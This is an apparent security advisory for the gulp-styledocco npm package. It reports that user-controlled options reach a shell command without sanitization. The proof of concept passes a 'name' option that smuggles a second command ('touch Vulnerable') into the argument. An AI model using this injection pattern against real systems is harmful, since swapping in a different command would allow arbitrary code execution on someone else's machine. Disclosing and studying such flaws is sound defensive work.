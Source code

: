 # Overview
`gulp-styledocco` is a StyleDocco plugin for gulp, this package are vulnerable to Command Injection.

The argument options of the exports function in index.js can be controlled by users without any sanitization.

# Proof of Concept
```
var root = require("gulp-styledocco");
var gulp = require("gulp");
var options = {
  opt: 'docs',
  name: "123\"& touch Vulnerable& \""
}

gulp.src("./gulp-styledocco.js")
  .pipe(root(options));
```